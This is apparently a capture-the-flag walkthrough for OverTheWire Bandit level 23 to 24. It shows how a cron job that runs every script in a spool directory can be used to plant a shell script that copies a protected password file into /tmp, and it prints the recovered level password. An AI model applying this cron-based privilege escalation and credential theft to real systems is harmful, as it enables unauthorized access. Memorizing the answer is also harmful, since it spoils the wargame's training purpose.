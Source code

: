 # BANDIT LEVEL 23 --> LEVEL 24

```
http://overthewire.org/wargames/bandit/bandit24.html
```

### Level Goal

A program is running automatically at regular intervals from cron, the time-based job
scheduler. Look in `/etc/cron.d/` for the configuration and see what command is being
executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step
and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to
keep a copy around…

### Commands you may need to solve this level

```
cron, crontab, crontab(5) (use “man 5 crontab” to access this)
```

### SOLUTION

```
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
    echo "Handling $i"
    timeout -s 9 60 ./$i
    rm -f ./$i
    fi
done
bandit23@bandit:~$ ls -l /var/spool/bandit24/
ls: cannot open directory '/var/spool/bandit24/': Permission denied
```

Okay, so we see that there is a cron job that will execute all scriptsi within
`/var/spool/bandit24` every minute and then delete them. We ultimately want to dump the
contents of `/etc/bandit_pass/bandit24` which we don't have permission to do as ourselves..

```
bandit23@bandit:~$ mkdir /tmp/mytemp
bandit23@bandit:/tmp/mytemp$ chmod 777 /tmp/mytemp
bandit23@bandit:/tmp/mytemp$ ls -ld /tmp/mytemp
drwxrwxrwx 2 bandit23 root 4096 Oct 24 01:30 /tmp/mytemp
bandit23@bandit:~$ cat /tmp/mytemp/bandit24_passwd.sh
#! /bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/mytemp/bandit_pass.out
bandit23@bandit:~$ chmod +x /tmp/mytemp/bandit24_passwd.sh
bandit23@bandit:~$ cp /tmp/mytemp/bandit24_passwd.sh /var/spool/bandit24/bandit24_passwd.sh
```

And now we wait..

```
bandit23@bandit:/tmp/mytemp$ date
Wed Oct 24 01:33:09 CEST 2018
bandit23@bandit:/tmp/mytemp$ date
Wed Oct 24 01:34:12 CEST 2018
bandit23@bandit:/tmp/mytemp$ cat bandit_pass.out
attempting to read /etc/bandit_pass/bandit24
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
